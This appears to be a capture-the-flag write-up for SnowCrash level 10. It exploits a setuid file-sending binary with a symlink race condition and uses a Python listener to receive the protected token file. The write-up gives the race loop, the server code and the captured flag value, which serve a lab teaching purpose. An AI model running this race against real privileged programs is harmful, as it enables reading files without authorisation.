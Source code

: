 # Level10

## Hint

You need to make a server but also do some symbolic links trickery.

## Answer

Let's check our current directory:
```
level10@SnowCrash:~$ ll
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 ./
d--x--x--x  1 root    users     340 Aug 30  2015 ../
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout*
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-r-x------  1 level10 level10   675 Apr  3  2012 .profile*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

We have an executable file, let's run it first !
```
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
```

Let's create a test file and give it as an argument to our executable and use the localhost as host:
```
level10@SnowCrash:~$ echo hi > /tmp/test; ./level10 /tmp/test 0.0.0.0
Connecting to 0.0.0.0:6969 .. Unable to connect to host 0.0.0.0
```

Seems like we have to make on our own server, let's do one in python:
```python
import socket

HOST = '0.0.0.0'
PORT = 6969

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((HOST, PORT))
    s.listen(1)
    while True:
        conn, addr = s.accept()
        print('Connected by', addr)
        while True:
            data = conn.recv(1024)
            if not data:
                break
            print(data)


if __name__ == '__main__':
    main()
```

Let's run our server first and run our executable again:
```
level10@SnowCrash:~$ ./level10 /tmp/test 0.0.0.0
Connecting to 0.0.0.0:6969 .. Connected!
Sending file .. wrote file!
```

This is the output of our server:
```
level10@SnowCrash:~$ python /tmp/uwu.py
('Connected by', ('127.0.0.1', 52407))
.*( )*.
hi
``` 

Perfect ! Now let's try with our `token` file instead:
```
level10@SnowCrash:~$ ./level10 token 0.0.0.0
You don't have access to token
```

Huh seems like we'll have to do a symbolic link again:
```
level10@SnowCrash:~$ ln -s ~/token /tmp/link
level10@SnowCrash:~$ ./level10 /tmp/link 0.0.0.0
You don't have access to /tmp/link
```

That doesn't work either, after a while we figured out we can exploit the symlinks to make the executable believe we have the correct permissions:
```
echo > /tmp/hack && while :; do ln -fs /tmp/hack /tmp/fake; ln -fs ~/token /tmp/fake; done
```

Essentially all we're doing here is creating a symbolic link to a file we have read permissions on, and then switching it to the `token` file which we can't read. All we have to do is get the correct timing for the executable to see that we have the correct permissions because it checks the `/tmp/fake` file and then opens the `token` file because the symlink has changed in between the two instructions.

Alright let's do our executable again *(while the python server and the shell script are running)*:
```
level10@SnowCrash:~$ ./level10 /tmp/fake 0.0.0.0
Connecting to 0.0.0.0:6969 .. Connected!
Sending file .. wrote file!
```

And our server outputs:
```
level10@SnowCrash:~$ python /tmp/uwu.py
('Connected by', ('127.0.0.1', 52455))
.*( )*.

woupa2yuojeeaaed06riuj63c
```